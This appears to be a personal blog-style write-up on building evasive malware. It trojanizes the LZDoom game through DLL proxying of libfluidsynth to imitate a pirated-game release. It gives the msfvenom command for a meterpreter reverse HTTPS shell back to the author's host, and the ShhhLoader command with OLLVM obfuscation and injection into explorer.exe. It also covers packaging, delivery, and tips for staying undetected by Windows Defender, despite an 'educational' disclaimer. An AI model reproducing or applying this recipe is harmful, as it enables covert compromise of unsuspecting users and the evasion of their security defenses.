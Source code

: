 # My weekend dive into evasive malware 

So, I've been playing with a bunch of different tools recently just for fun, and figured I'd try to put together something to illustrate how I go about building evasive malware payloads. 

Note well that this information is purely for educational purposes. Distributing malware is bad. 

## Nature of the project 

What I ended up going for was to simulate a typical malware-laden pirated game. For this purpose, I utilized the open source game engine LZDoom with the FreeDoom WAD so that I would have a base piece of software to trojanize that would be similarly complex to a commercial game. 

In order to accomplish this, I utilized several off the shelf tools. 

- msfvenom and meterpreter for a shellcode payload. 
- shhhloader for AV evasion and shellcode loading. 

...and that's really it. 

## Building out my payload shellcode 

This was a pretty basic msfvenom job. In order to be maximally evasive, I wanted to use a reverse HTTPS shell, and for compatibility with ShhhLoader, I output it as raw x64 shellcode. Here's the command line: 

```

msfvenom -p windows/x64/meterpreter/reverse_https LPORT=443 LHOST=[my IP] -f raw > shellcode.raw 

```

Not much to it! 

## Reconning for DLL proxying 

In order to make my final malware package look legit, I needed a way to launch my payload while also preserving the functionality of LZDoom so that the hypothetical victim wouldn't suspect that he's just run a busted piece of malware. I had a couple options: 

1. Trojanize the application with assembly. I don't quite know how to do this, so...I didn't. 
2. Write a loader application in C to call both the application executable and a payload executable. This seems pretty jank, though, so I didn't do it. 
3. Use MSFVenom to build out a backdoored EXE. This would break my ability to use ShhhLoader down the road, though. 
4. DLL proxying. Bingo! 

DLL proxying is effectively where one makes a malicious DLL that contains your payload, but also loads functions in from a legitimate DLL in order to preserve the legitimate DLL's functionality. In effect, it *proxies* the legitimate functions from the legitimate DLL through a malicious DLL that effectively serves as a malicious man in the middle between the calling EXE and the DLL it relies on. 

In order to do this, we need to identify a DLL that the application loads, and then we can use ShhhLoader along with a copy of the legitimate DLL to build a DLL proxy payload. 

LZDoom comes with several DLLs to provide various functionalities, e.g. SDL.dll for graphics, libfluidsynth for midi playback, etc. However, not all of the included DLLs with the game are necessarily loaded when the game is run in it's default configuration. In order to discover which DLL would actually be used by the application and thus be a good candidate for proxying, I had to do a bit of recon. This was accomplished simply enough by downloading a legitimate copy of LZDoom to my Windows 10 test VM, and then simply running it and inspecting which DLLs the game loaded. 

To inspect the loaded DLLs, I simply used the task manager -> performance, and then opened the resource monitor by clicking the link at the bottom of the application window labeled "Open Resource Monitor" (this can also be simply searched for in the start menu under "resource monitor"). In the resource monitor, I could then select the LZDoom process and see which DLLs it had loaded. 

I identified libfluidsynth (the midi sound library) as a good candidate for proxying. 

## Building out my proxied DLL with ShhhLoader 

ShhhLoader is an excellent tool for creating evasive payloads that utilize the SysWhispers method of direct syscalls to avoid detection by the API hooks used by many anti-virus solutions. If I recall correctly, this works by effectively reimplementing the ntdll.dll win32 API calls as direct syscalls to the NT Native API calls used by the OS kernel. By doing this, the API hooks (which usually inspect the userland win32 API calls and not the NT Native API calls) are unable to detect malicious activity performed by the payload. More information about this can be found on [that project's github.](https://github.com/icyguider/Shhhloader)

In order to use ShhhLoader to it's full extent, please consult the install instructions on that project's page, and *be sure to install OLLVM* support so that you can enable obsfucated payload compilation. This feature can make or break whether AV is able to detect the payload or not! 

Either way, to build out the DLL proxy payload, I had to get a copy of the legitimate fluidsynth DLL that was included with LZDoom and rename it to something that would seem legitimate. This was originally called libfluidsynth64.dll, so I renamed it libfluidsynth64_dev.dll. Dev versions of libraries are usually used for when one needs to compile against that library, so it seems like it would be a perfectly legitimate name...

Following this, I built out the payload as follows: 

```

./Shhhloader.py -l -ns -dp libfluidsynth64_dev.dll -p explorer.exe -o libfluidsynth64.dll shellcode.raw 

```

Breaking it down, what I did was: 

|Flag|Description|
|-|-|
|-l|Use OLLVM for obsfucated compilation|
|-ns|No sandbox evasion. This defaults to sleep evasion, and I'm impatient. It also hasn't been necessary in most of my testing with ShhhLoader.|
|-dp libfluidsynth64_dev.dll|Create a DLL proxy payload that proxies functions from libfluidsynth64_dev.dll (the legitimate DLL)|
|-p explorer.exe|Do process injection into explorer.exe. This could have been anything, and I often also use spoolsv.exe when targeting workstations since the print spooler will also likely be running.|
|-o libfluidsynth64.dll|Output the malicious DLL as libfluidsynth64.dll|
|shellcode.raw|The raw meterpreter shellcode we generated earlier and want to use as a payload|


## Packaging and delivery 

From here, turning this into a functional and distributable malware package was fairly simple. I just copied my malicious DLL and the renamed legitimate DLL into the application directory for LZDoom (which is portable), zipped it up and served it over a python3 http server. 

On my test victim VM, I was able to successfully download this archive, and run the game with no issues (although, LZDoom is an unsigned EXE, so Windows did complain a bit to try and prevent me from running it). As soon as the midi synthesizer in the game fired up, I was able to catch a reverse HTTPS shell back on my attack machine. 

This was able to avoid detection by 100% updated Windows Defender (as of Feb 2023) with both real time detection and cloud supported defense enabled. 

## Caveats 

- ShhhLoader can only generate 64 bit payloads. If you want/need to backdoor a 32 bit app using it, different methods will need to be used. 
- Just because you can get a shell to pop and do some rudimentary rooting around in the filesystem without setting off AV, this does not mean that you can do anything with absolute impunity! Trying to load additional malware that is *not* similarly obsfucated will likely result in a detection, as will bad behavioural actions such as trying to modify the registry for the purpose of exploiting the fodhelper UAC Bypass, etc. You still need to keep on your toes about defense evasion to go from this simple example to a fully rooted victim.
- Be sure to encrypt the network connection by using an HTTPS shell or similar. Doing this with an unencrypted network connection will almost certainly get flagged by the firewall, especially with a staged payload, since the plaintext shell will be running around in the tubes. 








